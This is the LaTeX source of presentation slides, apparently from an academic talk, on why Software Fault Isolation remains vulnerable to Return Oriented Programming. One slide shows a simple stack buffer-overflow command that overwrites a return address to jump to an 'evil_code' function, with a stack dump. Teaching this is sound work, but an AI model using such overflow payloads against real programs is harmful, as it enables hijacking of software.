 \documentclass{beamer}
\begin{document}
\begin{frame}[c]{Problematics of SFI}
	\begin{itemize}
		\item SFI has difficulties to deal with indirect jump through return addresses
		\item SFI is still vulnerable to Return Oriented Programing (ROP) attacks
		\item ROP attacks are one of the most common attacks in the industry
		\item We propose a solution to solve this issue
	\end{itemize}
\end{frame}

\section{Return Oriented Programing attacks}
\label{sec:Return Oriented Programing attacks}


\begin{frame}{ROP attack example (1/3)}
	\Buffer
\end{frame}

\begin{frame}[fragile]{ROP attack example (2/3)}
\textcolor{gray}{terminal\$~} ./buffer \$(python -c 'print 13*"a" + "\textbackslash{x7b}\textbackslash{x84}\textbackslash{x04}\textbackslash{x08}"') \\
\textcolor{red}{Address of evil\_code = 0x0804847b} \\
Stack before: \hfill \break
0xf7712000    \hfill \break
0xff957998    \hfill \break
0xf7593d26    \hfill \break
0xf7712d60    \hfill \break
0x0804868c    \hfill \break
0xff957978    \hfill \break
0xf7593d00    \hfill \break
0xf7713dc0    \hfill \break
0xf77828f8    \hfill \break
0xff957998    \hfill \break
0x08048510    ~~~~~~~~~~~~~~~~\textcolor{blue}{//Return address of \textit{foo}}\hfill \break
\end{frame}
\end{document}
